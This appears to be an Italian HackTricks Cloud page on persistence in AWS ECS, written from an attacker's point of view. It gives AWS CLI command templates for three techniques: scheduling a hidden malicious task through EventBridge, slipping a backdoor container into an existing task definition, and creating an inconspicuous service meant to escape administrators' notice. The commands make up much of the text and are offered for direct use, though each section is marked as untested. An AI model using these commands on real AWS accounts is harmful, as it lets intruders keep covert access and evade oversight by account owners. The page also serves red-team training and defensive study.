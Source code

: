 # Persistenza AWS - ECS

{% hint style="success" %}
Impara e pratica l'Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECS

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Attività Periodica Nascosta di ECS

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante può creare un'attività periodica nascosta di ECS utilizzando Amazon EventBridge per **programmare l'esecuzione di un'attività dannosa periodicamente**. Questa attività può svolgere ricognizione, esfiltrare dati o mantenere la persistenza nell'account AWS.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor Container in Existing ECS Task Definition

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante può aggiungere un **contenitore backdoor stealthy** in una definizione di attività ECS esistente che viene eseguita insieme a contenitori legittimi. Il contenitore backdoor può essere utilizzato per la persistenza e per svolgere attività dannose.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Servizio ECS non documentato

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante può creare un **servizio ECS non documentato** che esegue un'attività dannosa. Impostando il numero desiderato di attività al minimo e disabilitando il logging, diventa più difficile per gli amministratori notare il servizio dannoso.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
{% hint style="success" %}
Impara e pratica l'hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
